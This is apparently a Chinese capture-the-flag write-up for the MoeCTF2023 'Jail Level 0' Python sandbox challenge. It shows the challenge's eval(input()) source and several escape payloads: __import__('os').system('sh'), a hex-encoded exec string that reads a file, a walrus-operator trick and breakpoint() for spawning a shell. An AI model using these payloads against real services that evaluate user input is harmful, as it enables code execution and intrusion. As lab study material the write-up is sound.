 ```
"aaa".encode() ->编码成 bytes

13字符
exec(input())
eval(xxxxxxxx)

__import__("os").system("sh")


import os
# os = __import__("os")
os.system("sh")

可以加十六进制数
exec("\x70\x72\x69\x6e\x74\x28\x6f\x70\x65\x6e\x28\x22\x66\x61\x63\x74\x6f\x72\x2e\x6c\x6f\x67\x22\x29\x2e\x72\x65\x61\x64\x28\x29\x29")

pyjail 写脚本处理
```

---
## CHALLENGE: Jail Level 0
进入后输入g获取题目源码
```python
print("Welcome to the MoeCTF2023 Jail challenge.It's time to work on this calc challenge.")
print("Enter your expression and I will evaluate it for you.")
user_input_data = input("> ")
print('calc Answer: {}'.format(eval(user_input_data)))
```

那么显然，input将会把用户输入的值放到eval里面，这是非常危险的，因为用户可以输入任何他们想要运行的值

### 方法1
直接拿下shell
```python
__import__("os").system("sh")
```

### 方法2
海象运算符
```python
(a:="__import__('os').system('sh')")
```
第二次进去，a变量的值会保存，那么输入exec(a)或者eval(a)都可以拿到shell

### 方法3
```python
breakpoint()
```
然后分别输入
```python
import os
os.system("sh")
```
就可以拿到flag
